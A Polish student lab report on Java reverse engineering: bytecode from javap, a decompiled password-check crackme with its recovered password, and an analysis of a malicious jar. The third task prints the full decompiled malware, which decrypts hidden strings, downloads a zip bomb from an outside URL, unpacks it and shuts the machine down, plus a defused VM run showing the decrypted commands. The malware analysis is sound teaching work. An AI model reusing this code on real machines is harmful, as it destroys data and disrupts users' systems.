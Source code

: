 # APRO2 Lab5 Sprawozdanie

###### Tomasz Mycielski (304248)

## Zadanie 1

Na potrzeby zadania stworzyłem dwie klasy:
- `ConcatenatorPlusEquals`:
```java
package com.company.z1;

public class ConcatenatorPlusEquals {

    public static void main(String[] args) {
        String concatenation;
        concatenation = "String1" + "String2";
        System.out.println(concatenation);
    }
}
```
- `ConcatenatorStringBuilder`:
```java
package com.company.z1;

public class ConcatenatorStringBuilder {
    public static void main(String[] args) {
        StringBuilder stringBuilder;
        stringBuilder = new StringBuilder();
        stringBuilder.append("String1");
        stringBuilder.append("String2");
        String string;
        string = stringBuilder.toString();
        System.out.println(string);
    }
}
```

Wywołanie komendy `javap` na plikach `.class`, do których zostały skompilowane powyższe programy, wygenerowało następujący output:

- dla `ConcatenatorPlusEquals`:
```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
  public static void main(java.lang.String[]);
}
```

- dla 'ConcatenatorStringBuilder':
```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
  public static void main(java.lang.String[]);
}
```

Z powyższego wywnioskować można niewiele. Wiemy, że obydwa programy mają podobną strukturę — jest w nich tylko metoda `main(String[])`.

Program `javap` daje nam jednak do dyspozycji jeszcze opcję Disassemble the code, oznaczoną `-c`. Po wywołaniu komendy `javap -c` na tych samych plikach możemy dowiedzieć się o wiele więcej o programie:
- `ConcatenatorPlusEquals`
```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: ldc           #7                  // String String1
       2: astore_1
       3: aload_1
       4: invokedynamic #9,  0              // InvokeDynamic #0:makeConcatWithConstants:(Ljava/lang/String;)Ljava/lang/String;
       9: astore_1
      10: getstatic     #13                 // Field java/lang/System.out:Ljava/io/PrintStream;
      13: aload_1
      14: invokevirtual #19                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      17: return
}
```
- `ConcatenatorStringBuilder`
```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: new           #7                  // class java/lang/StringBuilder
       3: dup
       4: invokespecial #9                  // Method java/lang/StringBuilder."<init>":()V
       7: astore_1
       8: aload_1
       9: ldc           #10                 // String String1
      11: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      14: pop
      15: aload_1
      16: ldc           #16                 // String String2
      18: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      21: pop
      22: aload_1
      23: invokevirtual #18                 // Method java/lang/StringBuilder.toString:()Ljava/lang/String;
      26: astore_2
      27: getstatic     #22                 // Field java/lang/System.out:Ljava/io/PrintStream;
      30: aload_2
      31: invokevirtual #28                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      34: return
}
```
Otrzymaliśmy kod bajtowy Javy. Korzystając z jego dokumentacji dostępnej na [stronie](https://docs.oracle.com/javase/specs/jvms/se7/html/jvms-6.html) Oracle, możemy sporo dowiedzieć się o programie. Jednak już na pierwszy rzut oka widać, w której wersji programu wykorzystany został `StringBuilder`, a w której `+` do konkatenacji dwóch stringów. 

Moją szczególną uwagę zwrócił fakt, że w przypadku programu korzystającego ze `StringBuilder` możemy odczytać obydwa ciągi znaków, które ze sobą konkatenujemy, a w programie korzystającym z `+=` tylko drugi z nich.

Pliki `.class`, które podawałem do `javap` dostępne są w [lab5/out/production/lab5/com/company/z1/](./out/production/lab5/com/company/z1/).

## Zadanie 2

Do wykonania tego zadania wykorzystałem narzędzie [`Procyon`](https://github.com/ststeiger/procyon) na stronie [javadecompilers.com](javadecompilers.com). Po wysłaniu danego pliku na stronę dowiedziałem się, że program składa się z klas - `Coder` i `Main`:
- `Main.class`:
```java
package com.company;

import java.util.Date;
import java.time.Instant;
import java.text.SimpleDateFormat;

public class Main
{
    public static void main(final String[] array) {
        if (array.length != 1) {
            System.out.println("Wrong password!");
            return;
        }
        final String[] split = array[0].split("_");
        final int int1 = Integer.parseInt(new SimpleDateFormat("MM").format(Date.from(Instant.now())));
        if (split[0].length() == 7 && split[1].length() == 2) {
            if (split[0].equals(Coder.code("00PYe8m")) && Integer.parseInt(split[1]) == int1) {
                System.out.println("Good guess");
            }
            else {
                System.out.println("Wrong password!");
            }
        }
        else {
            System.out.println("Wrong password!");
        }
    }
}
```

- `Coder.class`:
```java
package com.company;

public class Coder
{
    static String code(final String s) {
        final StringBuilder sb = new StringBuilder();
        for (int i = 0; i < s.length(); ++i) {
            sb.append((char)(s.charAt(i) + '\u0001'));
        }
        return sb.toString();
    }
}
```

Mając do dyspozycji powyższy kod, postarałem się odwzorować [program](lab5/src/com/company/z2) w swoim IDE. Po analizie kodu ustaliłem, że hasło ma strukturę `[7 znaków] podkreślnik [2 znaki]`. Siedem pierwszych znaków to output metody `Coder.code("00PYe8m")`, a dwa ostatnie znaki to numer obecnego miesiąca.

Sprawdzam [hasło](lab5/password.txt):
```text
$ java -jar ./Tomasz_Jerzy_Mycielski_task_2.jar 11QZf9n_04
Good guess
```

## Zadanie 3

Zdekompilowałem plik `harm.jar` dekompilatorem [`CFR`](https://github.com/leibnitz27/cfr).
<details>
<summary>Zdekompilowany kod</summary>

```java
/*
 * Decompiled with CFR 0.150.
 */
package com.company.z3.com.crack.it;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class Run {
private static String key = "Kjf456UjOP14Ywte";

    private static byte[] a(String string) {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(string.length() / 2);
        for (int i = 0; i < string.length(); i += 2) {
            byteArrayOutputStream.write(Integer.parseInt(string.substring(i, i + 2), 16));
        }
        return byteArrayOutputStream.toByteArray();
    }

    private static String b(String string) throws Exception {
        byte[] arrby = Run.a(string);
        Cipher cipher = Cipher.getInstance("AES/CBC/NoPadding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(key.getBytes(StandardCharsets.UTF_8), "AES");
        IvParameterSpec ivParameterSpec = new IvParameterSpec(key.getBytes(StandardCharsets.UTF_8));
        cipher.init(2, (Key)secretKeySpec, ivParameterSpec);
        byte[] arrby2 = cipher.doFinal(arrby);
        return new String(arrby2);
    }

    private static void c(String string) throws Exception {
        URL uRL = new URL(string);
        Path path = Paths.get(System.getProperty(Run.b("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.b("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        try (BufferedInputStream bufferedInputStream = new BufferedInputStream(uRL.openStream());){
            int n;
            FileOutputStream fileOutputStream = new FileOutputStream(path2.toString());
            byte[] arrby = new byte[1024];
            while ((n = bufferedInputStream.read(arrby, 0, 1024)) != -1) {
                fileOutputStream.write(arrby, 0, n);
            }
        }
        catch (IOException iOException) {
            // empty catch block
        }
        Run.d(path2, path);
    }

    private static void d(Path path, Path path2) {
        try {
            if (!path.toFile().exists()) {
                return;
            }
            byte[] arrby = new byte[1024];
            ZipInputStream zipInputStream = new ZipInputStream(new FileInputStream(path.toString()));
            ZipEntry zipEntry = zipInputStream.getNextEntry();
            while (zipEntry != null) {
                int n;
                String string = Paths.get(path2.toString(), zipEntry.getName()).toString();
                FileOutputStream fileOutputStream = new FileOutputStream(string);
                while ((n = zipInputStream.read(arrby)) > 0) {
                    fileOutputStream.write(arrby, 0, n);
                }
                fileOutputStream.close();
                zipEntry = zipInputStream.getNextEntry();
            }
            zipInputStream.closeEntry();
            zipInputStream.close();
        }
        catch (Exception exception) {
            // empty catch block
        }
    }

    public static void main(String[] arrstring) throws Exception {
        String string = System.getProperty(Run.b("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim());
        String string2 = Run.b("054f1f395c9506dea62a842dd0a91602ef625bd2909bb87a2fbcab5a499e06013166de8c18bf9d982184785f07f59739c463c3d56327be198fcae6648f7314f4").trim();
        Run.c(Run.b("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9"));
        if (string.contains(string2)) {
            Runtime.getRuntime().exec(Run.b("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
        } else {
            Runtime.getRuntime().exec(Run.b("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
        }
    }
}
```

</details>

Kod ten, po wprowadzeniu komentarzy (będących wynikiem analizy statycznej) wyjaśniających jego działanie, dostępny jest w katalogu [z3](lab5/src/com/company/z3/com/crack/it/).

Po dokonaniu drobnych zmian w kodzie i uruchomieniu go na maszynie wirtualnej (guest OS Ubuntu) dowiedziałem się, że:
- program sprawdza na jakim systemie jest uruchomiony (Windows lub Linux) w celu dostosowania komend, jakie będą na komputerze ofiary wykonywane
- program pobiera [zip bombę](https://www.bamsoftware.com/hacks/zipbomb/zbsm.zip)
- program wypakowuje ją a następnie wyłącza komputer

Program może "zapchać" dysk ofiary po wypakowaniu zip bomby, jednak jest to mało prawdopodobne, gdyż po odpakowaniu bomba waży "jedynie" 5,5GB.

<details>
<summary>kod, który uruchomiłem na maszynie wirtualnej</summary>

```java
//package com.crack.it;

import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.*;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;

import java.util.concurrent.TimeUnit;

public class Run {
    private static String key = "Kjf456UjOP14Ywte"; // encryption key

    /**
     * Takes in a string, parses its substrings as ints in base 16, writes them to byte array and returns this byte array
     * @param string string to be parsed as ints in base 16 and written to byte array
     * @return string parsed to ints in base 16 as byte array
     */
    private static byte[] stringToIntToByteArray(String string) {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(string.length() / 2);
        for (int i = 0; i < string.length(); i += 2) {
            /*
            Extracts from the given string a substring of characters given by the start and end indices i, i+2.
            It parses this substring as an integer interpreted in hex base.
            Then writes the read number to the byte array
             */
            byteArrayOutputStream.write(Integer.parseInt(string.substring(i, i + 2), 16));
        }
        return byteArrayOutputStream.toByteArray();
    }

    /**
     * Decrypts string
     * @param string encrypted strings
     * @return decrypted string
     * @throws Exception NoSuchAlgorithmException, NoSuchPaddingException
     */
    private static String decryptString(String string) throws Exception {
        byte[] arrby = Run.stringToIntToByteArray(string);
        Cipher cipher = Cipher.getInstance("AES/CBC/NoPadding");  // create instance of an AES cipher
        SecretKeySpec secretKeySpec = new SecretKeySpec(key.getBytes(StandardCharsets.UTF_8), "AES"); // generates a new key for AES from hardcoded string key
        IvParameterSpec ivParameterSpec = new IvParameterSpec(key.getBytes(StandardCharsets.UTF_8));  // generates new initialization vector for encryption
        cipher.init(2, (Key) secretKeySpec, ivParameterSpec); // initialize cipher instance to mode 2 (decryption) with secretkey and initialization vector
        byte[] arrby2 = cipher.doFinal(arrby); // decrypts byte array and saves the result to new byte array
        return new String(arrby2); // returns decrypted byte array
    }

    /**
     *
     * @param string URL
     * @throws Exception MalformedURLException
     */
    private static void writeFromUrlToSystemProperty(String string) throws Exception {
        URL uRL = new URL(string); // creates an instance of URL from given string
        /*
        gets system properties defined by those encrypted strings
         */
        Path path = Paths.get(System.getProperty(Run.decryptString("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.decryptString("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        try (BufferedInputStream bufferedInputStream = new BufferedInputStream(uRL.openStream());) {
            int n;
            FileOutputStream fileOutputStream = new FileOutputStream(path2.toString());
            byte[] arrby = new byte[1024];
            while ((n = bufferedInputStream.read(arrby, 0, 1024)) != -1) {
                fileOutputStream.write(arrby, 0, n);
                // writes from URL to system properties, possibly in order to plant a backdoor access to system
            }
        } catch (IOException iOException) {
            // empty catch block
        }
        Run.unpackZipFileToDirectory(path2, path);
    }

    /**
     * Unpacks zip file to directory
     * @param path path to zip file
     * @param path2 where to unpack zip file
     */
    private static void unpackZipFileToDirectory(Path path, Path path2) {
        try {
            if (!path.toFile().exists()) {
                return;
                // if no such file exists
                // it returns
            }
            byte[] arrby = new byte[1024]; // declare new array of bytes, length = 1024
            ZipInputStream zipInputStream = new ZipInputStream(new FileInputStream(path.toString())); // reads zip file from given path
            ZipEntry zipEntry = zipInputStream.getNextEntry(); // gets next file in zip
            /*
            unpacks files from zip to directory specified by path2
             */
            while (zipEntry != null) {
                int n;
                String string = Paths.get(path2.toString(), zipEntry.getName()).toString();
                FileOutputStream fileOutputStream = new FileOutputStream(string);
                while ((n = zipInputStream.read(arrby)) > 0) {
                    fileOutputStream.write(arrby, 0, n);
                }
                fileOutputStream.close();
                zipEntry = zipInputStream.getNextEntry();
            }
            zipInputStream.closeEntry();
            zipInputStream.close();
        } catch (Exception exception) {
            // empty catch block
        }
    }

    /**
     * main method is driver code
     * saves system property described by an encrypted string to another string
     * saves another encrypted stiring's plaintext to a string
     * writes to the system property from url given by an encrypted string
     * executes arbitrary code given by an encrypted string
     * @param arrstring is not used anywhere, all values are hardcoded in the program
     * @throws Exception IOException
     */
    public static void main(String[] arrstring) throws Exception {
        String property = Run.decryptString("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim();
        String string = System.getProperty(Run.decryptString("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim());
        String string2 = Run.decryptString("054f1f395c9506dea62a842dd0a91602ef625bd2909bb87a2fbcab5a499e06013166de8c18bf9d982184785f07f59739c463c3d56327be198fcae6648f7314f4").trim();
        System.out.println("property:\n" + property);
        System.out.println("string:\n:" + string);
        System.out.println("string2:\n" + string2);
        System.out.println("decrypted strings from writeFromUrlToSystemProperty:\n");
        Path path = Paths.get(System.getProperty(Run.decryptString("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.decryptString("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        System.out.println(Run.decryptString("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim());
        System.out.println(path);
        System.out.println(path2);
        //Run.writeFromUrlToSystemProperty(Run.decryptString("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9"));
        String url = Run.decryptString("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9");
        System.out.println("url:\n" + url);
        if (string.contains(string2)) {
          System.out.println("Runtime.getRuntime():\n" + Runtime.getRuntime());
          System.out.println(Run.decryptString("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
            //Runtime.getRuntime().exec(Run.decryptString("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
        } else {
          System.out.println("Runtime.getRuntime():\n" + Runtime.getRuntime());
          System.out.println(Run.decryptString("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
            //Runtime.getRuntime().exec(Run.decryptString("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
        }
        TimeUnit.MINUTES.sleep(10);
    }
}
```
<details>
<summary>output na konsolę</summary>

```text
user@ubuntu:~/Desktop$ java Run 
property:
os.name
string:
:Linux
string2:
Windows
decrypted strings from writeFromUrlToSystemProperty:

user.dir
/home/user/Desktop
/home/user/Desktop/zbsm.zip
url:
https://www.bamsoftware.com/hacks/zipbomb/zbsm.zip              
Runtime.getRuntime():
java.lang.Runtime@45283ce2
shutdown -h now
```
</details>
</details>
